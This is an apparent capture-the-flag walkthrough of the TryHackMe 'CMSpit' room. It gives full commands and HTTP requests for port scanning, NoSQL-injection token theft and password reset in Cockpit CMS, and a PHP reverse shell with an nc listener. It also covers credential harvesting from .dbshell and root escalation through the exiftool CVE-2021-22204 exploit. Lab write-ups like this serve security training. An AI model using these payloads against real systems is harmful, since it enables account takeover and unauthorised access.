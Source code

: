 # CMSpit

**Room Link:** [https://tryhackme.com/room/cmspit](https://tryhackme.com/room/cmspit)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



CMS Version is 0.11.1

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### User account compromise

This CMS version has a exploit to help us find users.

**Exploit:** [**https://swarm.ptsecurity.com/rce-cockpit-cms/**](https://swarm.ptsecurity.com/rce-cockpit-cms/)[ ](https://swarm.ptsecurity.com/rce-cockpit-cms/)



**Burp**

```
GET /auth/requestreset HTTP/1.1
Host: 10.10.198.113
Content-Length: 25
Content-type: application/json

{
  "user":"admin"
}
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Burp**

```
GET /auth/resetpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 38
Content-type: application/json

{
"token":{
"$func":"var_dump"
}
}
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Burp**

```
GET /auth/newpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 66
Content-type: application/json

{
"token":"rp-25badb6dbd66e39732cc3abf8122ba9065b6ee57e7610"
}

```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Did the same thing for user skidy

**Burp**

```
GET /auth/newpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 66
Content-type: application/json

{
"token":"rp-4472f7f85a07bbc1b08d917a298ad0f365b6e7ce6d85e"
}

```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I don't know if the last part was really necessary. I think maybe the reset token can be different then the other token in which case the above step would be necessary but its the same so I just updated the password for skidy.

**Burp**

```
GET /auth/resetpassword HTTP/1.1
Host: 10.10.198.113
Content-Length: 88
Content-type: application/json

{
"token":"rp-4472f7f85a07bbc1b08d917a298ad0f365b6e7ce6d85e",
"password":"hacked"
}

```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I can now login as Skidy

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
nc -lvnp 1234 
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (16) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement (Stux)

**Victim**

```
cd /home/stux
cat .dbshell
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su stux
Password: p4ssw0rdhack3d!123
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (19) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

**Exploit:** [https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py](https://github.com/convisolabs/CVE-2021-22204-exiftool/blob/master/exploit.py)

**Victim(receiving)**

```
nc -l -p 1234 > cve.tar.gz
```

**Kali(sending)**

```
git clone https://github.com/se162xg/CVE-2021-22204.git
tar cvf cve.tar.gz  CVE-2021-22204/
nc -w 3 $VICTIM 1234 < cve.tar.gz
```

**Victim**

```
tar xvf cve.tar.gz 
cd CVE-2021-22204
```

**Victim**

```
bash craft_a_djvu_exploit.sh '/bin/bash'
sudo /usr/local/bin/exiftool delicate.jpg 
```

<figure><img src="../../.gitbook/assets/image (772).png" alt=""><figcaption></figcaption></figure>

